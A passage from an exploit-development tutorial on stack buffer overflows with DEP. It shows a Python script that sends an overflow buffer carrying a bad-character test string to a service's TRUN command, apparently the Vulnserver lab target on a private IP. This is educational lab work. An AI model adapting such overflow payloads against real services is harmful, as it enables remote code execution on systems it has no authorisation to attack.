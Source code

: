 
Now, let’s remove \x00 and test for any other bad characters, this process can take sometime depending on the how many bad characters there are, trial and error is the only way as far as I’m aware.

As you can see, there are no more bad chars other than `\x00`.


![Badchars.png](/images/2020-10-12-Stack-Based-Buffer-Overflows-DEP-Part-4/2179e60d7f4643e89616e6d7073d773f.png)

```python
import socket

# Target IP address and port
RHOST = "192.168.16.129"
RPORT = 9999


badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
payload = "A" * 2003
payload += "B" * 4
payload += badchars
payload += "C" * (3000- len(payload))

try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((RHOST, RPORT))
        s.recv(1024)
        print("[+] Sending exploit!")
        s.send("TRUN /.:/" + payload)
        print("[+] Evil buffer sent...")
        s.close()
```